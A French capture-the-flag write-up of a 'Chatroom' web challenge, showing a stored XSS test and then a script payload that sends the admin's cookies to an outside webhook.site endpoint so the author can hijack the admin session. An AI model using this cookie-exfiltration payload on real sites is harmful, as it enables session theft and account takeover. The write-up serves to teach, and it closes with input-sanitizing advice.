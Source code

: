 ## **🎯Chatroom**

![Screenshot](images/chatroom_1.png)


Dans ce challenge, on nous donne accès à un **chatroom** où un message explique que l’**admin lira notre message dans 30 secondes**.

🧐 Dès cette indication, je pense immédiatement à une potentielle **vulnérabilité XSS** (**Cross-Site Scripting**), car si un message est stocké et exécuté dans le navigateur de l’admin, on pourrait **injecter du JavaScript malveillant**.

---

## **🔎 Étape 1 - Tester une Injection XSS**

Pour vérifier si l’input est vulnérable au **XSS**, j’essaye un **payload simple** :

`<script>alert(1)</script>`

✅ **Résultat** : Une boîte d'alerte apparaît, ce qui confirme que mon code s’exécute bien sur la page.

![Screenshot](images/chatroom_2.png)

---

## **🕵️‍♂️ Étape 2 - Exfiltration du Cookie de l’Admin**

Maintenant que je sais que le **XSS fonctionne**, je vais exploiter cette faille pour **voler les cookies de l'admin**.

### **💻 Payload utilisé :**

`<script> window.location.href = "https://webhook.site/573a7e16-fd1f-4a49-8445-1e5e43a5c297?cookie=" + document.cookie </script>`

Ce script **envoie automatiquement** les cookies du navigateur de l’admin vers mon **endpoint webhook.site**, ce qui me permet de récupérer ses **informations de session**.

---

## **📩 Étape 3 - Récupération du Cookie de l’Admin**

Quelques secondes plus tard, je reçois une requête sur mon endpoint **avec le cookie de l'admin** :

![Screenshot](images/chatroom_3.png)

🔑 **Contenu du cookie** :

- `username=Alice
- `id_value=adminaeg5af2z3cds2csdsdc3cnb`

---

## **🎭 Étape 4 - Changement de Session**

Avec ces informations, je modifie **mes propres cookies** dans mon navigateur pour **usurper la session de l'admin**.

![Screenshot](images/chatroom_6.png)

---

## **🏆 Étape 5 - Accès et Récupération du Flag**

Après avoir **rechargé la page avec la session de l'admin**, je tombe directement sur le **flag** 🎉.

![Screenshot](images/chatroom_7.png)

---

## **🚀 Conclusion**

🔹 **Problème :** Le chatroom est vulnérable à une **faille XSS stockée**.  
🔹 **Exploitation :** J’ai injecté un **script malveillant** qui **vole les cookies** de l’admin via un webhook.  
🔹 **Résultat :** En usurpant la session de l’admin, j’ai pu accéder à la page restreinte et récupérer le **flag**.

### **💡 Leçon à retenir**

✅ **Ne jamais faire confiance aux entrées utilisateur !**  
✅ **Toujours filtrer/sanitariser les inputs pour empêcher l'exécution de scripts malveillants.**